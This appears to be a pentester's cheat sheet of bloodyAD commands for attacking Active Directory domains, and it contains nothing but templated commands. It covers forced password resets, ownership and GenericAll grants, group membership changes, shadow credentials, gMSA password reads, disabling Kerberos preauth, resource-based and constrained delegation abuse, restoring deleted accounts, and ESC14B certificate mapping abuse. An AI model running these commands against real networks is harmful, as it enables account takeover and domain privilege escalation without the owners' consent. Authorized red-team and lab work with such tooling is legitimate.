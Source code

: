 # bloodyad
#active-directory

## Set password
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set password '<target_user>' '<new_passwd|Password123!>'
```

## Get writable
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set owner '<target_obj>' '<our_acc>'
```

## Add GenericAll
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add genericAll '<target_obj>' '<our_acc>'
```

## Add group member
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add groupMember '<group>' '<member>'
```
## Shadow Creds
```
bloodyAD --host <target> -d <domain>  -u '<user>' -p '<passwd>' add shadowCredentials <target_user>
```

## Enum Deleted User
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' -k get writable --include-del
```

## Restore Deleted User
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' -k set restore <target_name>
```

## ReadGMSAPassword
```
bloodyAD --host <target> -d <domain> -u <user> -p <passwd> get object <target_username> --attr msDS-ManagedPassword
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac '<target_obj>' -f DONT_REQ_PREAUTH
```

## Add RBCD
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add rbcd '<target_obj>' '<service_acc>'
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' remove uac '<account>' -f ACCOUNTDISABLE
```

## TRUSTED_TO_AUTH_FOR_DELEGATION 
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac <target_username> -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

## Modify UPN
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <old_upn> userPrincipalName -v <new_upn>
```

## Mail Attribute
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target_user> mail -v <newmail@test.local>
```

## Write SPN
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target>servicePrincipalName -v '<domain/meow>'
```

## ESC14B - Modify the altSecurityIdentities attribute
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target_user> altSecurityIdentities -v 'X509:<RFC822>pain@meow.local'
```
